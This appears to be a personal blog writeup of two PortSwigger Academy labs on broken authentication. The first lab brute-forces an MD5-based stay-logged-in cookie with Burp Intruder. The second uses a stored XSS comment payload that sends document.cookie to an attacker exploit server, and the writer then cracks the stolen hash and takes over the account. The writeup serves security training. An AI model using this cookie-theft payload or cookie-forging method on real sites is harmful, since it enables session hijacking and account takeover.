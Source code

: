 ```yaml
---
title: Other vulnerable Authentication Mechanismus
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2022-09-30 09:00:00 +0200
categories: [Web Application, Broken Authentication]
tags: [Notes, Web Application, Portswigger]
math: true
mermaid: true
image:
  src: 
  width: 694
  height: 515
  alt: image alternative text
---
```

# Intro
This post/writeup is all about the Authentication vulnerabilities or [Broken Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication) if we follow [OWASP](https://owasp.org/) naming scheme. 

I'll be using primarily [Portswigger Web Academy](https://portswigger.net/web-security/authentication) Labs, but i do intent do throw other labs and writeups here as well.
 
# Brute-forcing a stay-logged-in cookie
>  This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.
> 
> To solve the lab, brute-force Carlos's cookie to gain access to his "My account" page.
> 
> Your credentials: wiener:peter
> 
> Victim's username: carlos
> 
> [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

Long story short. This is all about the vulnerable `remember me`/`stay-logged-in`functionality.

## Abusing `stay-logged-in` mechanismus

Let's login using `wiener:peter`. 
![picture 92](/assets/images/c3de592df71ec6ed1862aa69f7db5e40afa8f8632db991b0ab92b43699ac07ce.png)

We can see in the response that cookie that is being sent in response includes username and some sort of hash. This md5 hash is password, which is known = `peter`.

This hash persists then in the subsequent requests like `/my-account`. Let's try to bruteforce carlos's password hash in the cookie.

We can use `sniper` mode against `my-account` without session cookie!

For payload we can use the provied password list, we however need do hash he password, add a prefix which is `carlos:` and encode whole thing as base64

![picture 95](/assets/images/5fafc845a3952d4ab27db939c06e0f167ab844f55781c2e1545eb953c9583b29.png)

If everything has been done correctly, Intruder should be able to find the password:

![picture 93](/assets/images/06bf5917d5f0ee71864440174505b15eea3137634a27583c9eb5c91c01e1ed1b.png)  

Lab has been solved

![picture 94](/assets/images/1d7afa7f9c9e75d2410df73c7d5c74d9081b432db69be192ba0a86d089765d64.png)  

# Offline password cracking (weak hash used for remember-me cookie)

> This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.
> 
> Your credentials: wiener:peter
> Victim's username: carlos
> 
> **Learning path**
> 
> !!!!!If you're following our suggested learning path, please note that this lab requires some understanding of topics that we haven't covered yet. Don't worry if you get stuck; try coming back later once you've developed your knowledge further.!!!!!!

## Enumeration first!

Let's login first
![picture 96](/assets/images/4018c68cd599f0f02b42e929a4bba0f73997c1ad0cef417ec395532dba4ab52a.png)  

We're supposed to delete an accout: 
![picture 97](/assets/images/b2fd12ac206bd0a8b983f0bcf5e3ae576d65ebef900d31b69464742355857f93.png)  

If XSS should do cause a deletion, then we'd need a client to request for `/my-account/delete`

We however need to steal the credentials.

## Exploitation next!
For XSS we have a server available:

![picture 98](/assets/images/76f9d6ddf1433f39a0467b27481e77cc5bba2a41619d42e9ead85f8519cd8341.png)  

As we already know that there is a XSS, let's simply leave a message in the comment in one of the posts

![picture 99](/assets/images/6975072d1a762add5aac6bb5df61a0bd29bf82bee7beaed27c37f8d17f1ad285.png)  

Payload:
```
<script>document.location='https://exploit-0a79008a03044c6dc0753916018d0031.web-security-academy.net/c='+document.cookie</script>
```

If we check our Access logs we'd see something there:

![picture 100](/assets/images/c03375535b5c517ff1221cdb1ccd00553065a6d9c5588b4dda34eee461f55a1b.png)  

If we check the `stay-logged-in` token and send it to `Decoder` we can see it's carlos's token:

![picture 101](/assets/images/8ee439d90eaa64cebed1623dd07ae4176ab41657efdc6a7ca1adfccaed54aa25.png)  

Password can be found on google ==> `26323c16d5f4dabff3bb136f2460a943:onceuponatime` for carlos's user.

Now login and delete the Carlos!

![picture 102](/assets/images/c1f0d215900c190e28e00f0b6550e825f69d683aeebea575964f6db7585d7eee.png)  

It would be possible to delete Carlos using XSS, but it was not in focus in this lab!

